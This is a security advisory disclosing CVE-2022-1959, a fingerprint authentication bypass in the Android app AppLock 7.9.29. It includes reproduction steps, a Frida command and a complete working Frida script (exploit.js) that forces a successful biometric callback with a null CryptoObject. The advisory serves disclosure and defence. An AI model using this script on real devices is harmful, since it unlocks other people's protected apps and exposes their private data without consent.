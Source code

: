 ```yaml
---
slug: advisories/walker/
title: AppLock 7.9.29 - Improper Access Control - Fingerprint
authors: Carlos Bello
writer: cbello
codename: walker
product: AppLock 7.9.29
date: 2022-09-26 18:00 COT
cveid: CVE-2022-1959
severity: 5.5
description: AppLock 7.9.29  -  Improper Access Control - Fingerprint
keywords: Fluid Attacks, Security, Vulnerabilities, AppLock, Spsoft Mobile, Spsoft, Fingerprint
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | AppLock 7.9.29 - Improper Access Control - Fingerprint |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | AppLock (Fingerprint)                                  |
| **Affected versions** | Version 7.9.29                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 5.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

AppLock version 7.9.29 allows an attacker with physical access to
the device to bypass biometric authentication. This is possible
because the application did not correctly implement fingerprint
validations.

## Vulnerability

In android application fingerprint implementations, the
onAuthenticationSucceded method is triggered when the system
successfully authenticates a user. Most biometric authentication
implementations rely on this method being called, without worrying
about the CryptoObject. The application logic responsible for
unlocking the application is usually included in this callback method.
This approach is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method directly, as a
result, the application can be unlocked without providing valid
biometric data.

Another common case occurs when some developers use CryptoObject but do not
encrypt/decrypt data that is crucial for the application to function properly.
Therefore, we could skip the authentication step altogether and proceed to use
the application. To solve this there is no single answer, however a good approach
is to use a fingerprint protected key store key that will be used to decrypt a
symmetric key. This symmetric key must be used to decrypt the application storage.

I attach the following link so that you can better understand the vulnerability
present in AppLock:

* https://labs.f-secure.com/blog/how-secure-is-your-android-keystore-authentication/

## Steps to reproduce

1. Install and configure AppLock.

2. Activate and configure fingerprint protection in AppLock.

3. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

4. Start AppLock on your device, if you set everything up correctly, you should now
   see a prompt to put your fingerprint.

5. Run the following command on your laptop.

```bash
frida -U 'AppLock' -l exploit.js --no-pause
```

6. Now on your device press the 'recent' button, commonly represented by a square.
   This button opens the recent apps view so that you can switch from one open app
   to another.

7. Log back into AppLock.

8. Now all you have to do is log in again. This time you will enter the application
   instantly, without having entered a valid fingerprint.

## Exploitation

### exploit.js

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Evidence of exploitation

![applock-fingerprint-bypass](https://user-images.githubusercontent.com/51862990/192392091-e6ff1169-93d4-4c5b-ba61-59fdbf7841a8.gif)

## Our security policy

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: AppLock (Fingerprint) 7.9.29

* Operating System: Android 8.0 (API 26)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.spsoftmobile.com>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
